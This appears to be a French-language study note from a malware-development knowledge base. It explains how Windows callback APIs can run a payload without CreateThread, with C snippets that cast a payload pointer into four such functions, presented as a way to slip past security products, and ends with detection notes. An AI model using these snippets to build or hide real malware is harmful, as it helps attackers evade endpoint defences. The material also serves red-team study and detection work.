

# Exécution par callbacks

L'exécution par callbacks exploite des fonctions Windows ordinaires capables d'appeler un pointeur de fonction fourni par l'appelant. En passant l'adresse du payload à la place du callback légitime, on obtient l'exécution du code sans recourir à `CreateThread` ni à aucune des techniques de [[Détournement de threads]] ou d'[[Injection APC et Early Bird]].

## Principe

Une fonction de rappel (*callback*) est du code fourni à une API, que celle-ci appellera lorsqu'un événement survient ou qu'une condition est remplie. Windows en utilise partout : gestion d'événements, fenêtres, multithreading.

L'astuce tient au fait que ces callbacks sont appelés par simple pointeur de fonction. Si l'on fournit l'adresse du payload au lieu d'une vraie fonction, l'API exécutera le payload. Deux conséquences pratiques :

- L'appel peut être mal formé : les paramètres, la valeur de retour et le résultat fonctionnel de l'API n'ont aucune importance, seul le déclenchement du callback compte.
- La fonction employée paraît légitime, ce qui offre un avantage face aux solutions de sécurité.

Limite importante : **les callbacks ne fonctionnent que dans l'espace d'adressage du processus local**. Ils ne permettent pas d'injection de code à distance. On les utilise donc comme substitut de `CreateThread` pour l'exécution locale, à rapprocher de [[Exécution locale de payload]].

Comme aucune allocation exécutable séparée n'est nécessaire, le payload est volontiers stocké dans la section `.text` du binaire : il bénéficie alors directement des permissions `RX` sans passer par `VirtualAlloc` (voir [[Placement du payload]]).

## Fonctions de callback exploitables

| Fonction | Paramètre utilisé | Remarque |
|---|---|---|
| `CreateTimerQueueTimer` | `WAITORTIMERCALLBACK Callback` (3e) | Callback appelé par le thread ayant créé la file de timers |
| `EnumChildWindows` | `WNDENUMPROC lpEnumFunc` (2e) | Énumération des fenêtres enfants |
| `EnumUILanguagesW` | `UILANGUAGE_ENUMPROCW lpUILanguageEnumProc` (1er) | Énumération des langues d'interface |
| `VerifierEnumerateResource` | `AVRF_RESOURCE_ENUMERATE_CALLBACK ResourceCallback` (4e) | Exporté par `verifier.dll`, chargement dynamique requis |

Ces signatures montrent où se place le pointeur :

```c
BOOL CreateTimerQueueTimer(
  [out]          PHANDLE             phNewTimer,
  [in, optional] HANDLE              TimerQueue,
  [in]           WAITORTIMERCALLBACK Callback,      // ici
  [in, optional] PVOID               Parameter,
  [in]           DWORD               DueTime,
  [in]           DWORD               Period,
  [in]           ULONG               Flags
);

BOOL EnumChildWindows(
  [in, optional] HWND        hWndParent,
  [in]           WNDENUMPROC lpEnumFunc,    // ici
  [in]           LPARAM      lParam
);

BOOL EnumUILanguagesW(
  [in] UILANGUAGE_ENUMPROCW lpUILanguageEnumProc,   // ici
  [in] DWORD                dwFlags,
  [in] LONG_PTR             lParam
);

ULONG VerifierEnumerateResource(
  HANDLE                           Process,
  ULONG                            Flags,
  ULONG                            ResourceType,
  AVRF_RESOURCE_ENUMERATE_CALLBACK ResourceCallback,  // ici
  PVOID                            EnumerationContext
);
```

## CreateTimerQueueTimer

Crée un timer et l'ajoute à la file de timers indiquée. Le callback est appelé à l'expiration du timer, par le thread qui a créé la file. Il suffit de caster le payload en `WAITORTIMERCALLBACK` :

```c
HANDLE hTimer = NULL;

if (!CreateTimerQueueTimer(&hTimer, NULL, (WAITORTIMERCALLBACK)Payload, NULL, NULL, NULL, NULL)) {
    printf("[!] CreateTimerQueueTimer Failed With Error : %d \n", GetLastError());
    return -1;
}
```

## EnumChildWindows

Énumère les fenêtres enfants d'une fenêtre parente et applique le callback à chacune. Un handle parent `NULL` suffit à faire tourner le callback :

```c
if (!EnumChildWindows(NULL, (WNDENUMPROC)Payload, NULL)) {
    printf("[!] EnumChildWindows Failed With Error : %d \n", GetLastError());
    return -1;
}
```

## EnumUILanguagesW

Énumère les langues d'interface disponibles et applique le callback à chacune. Le drapeau `MUI_LANGUAGE_NAME` est attendu, mais toute valeur valide convient :

```c
if (!EnumUILanguagesW((UILANGUAGE_ENUMPROCW)Payload, MUI_LANGUAGE_NAME, NULL)) {
    printf("[!] EnumUILanguagesW Failed With Error : %d \n", GetLastError());
    return -1;
}
```

## VerifierEnumerateResource

Énumère les ressources d'un module donné (chaînes, bitmaps, modèles de boîte de dialogue). La fonction étant exportée par `verifier.dll`, il faut la charger dynamiquement :

```c
HMODULE hModule = NULL;
fnVerifierEnumerateResource pVerifierEnumerateResource = NULL;

hModule = LoadLibraryA("verifier.dll");
if (hModule == NULL)
    return -1;

pVerifierEnumerateResource = GetProcAddress(hModule, "VerifierEnumerateResource");
if (pVerifierEnumerateResource == NULL)
    return -1;

// ResourceType doit valoir AvrfResourceHeapAllocation, sinon le payload n'est pas exécuté
pVerifierEnumerateResource(GetCurrentProcess(), NULL, AvrfResourceHeapAllocation,
                           (AVRF_RESOURCE_ENUMERATE_CALLBACK)Payload, NULL);
```

Point de vigilance : si `ResourceType` diffère de `AvrfResourceHeapAllocation`, le payload ne s'exécute pas. Ce drapeau fait énumérer les allocations de tas, ce qui déclenche l'appel du callback.



## Détection et limites

- Exécution strictement locale : inutilisable pour injecter à distance.
- Les callbacks mal formés et les appels avec des paramètres incohérents (`NULL`, drapeaux improbables) tranchent avec un usage normal de l'API.
- Le chargement dynamique de `verifier.dll` et l'usage de `AvrfResourceHeapAllocation` sont typiques et repérables.
- Un payload en `.text` évite l'allocation `RWX`, mais la section reste modifiable suivie d'un changement de protection — voir [[Mécanismes de détection]].
- La surface est vaste : la documentation Microsoft et les listes publiques de callbacks recensent de nombreuses autres fonctions abusables.
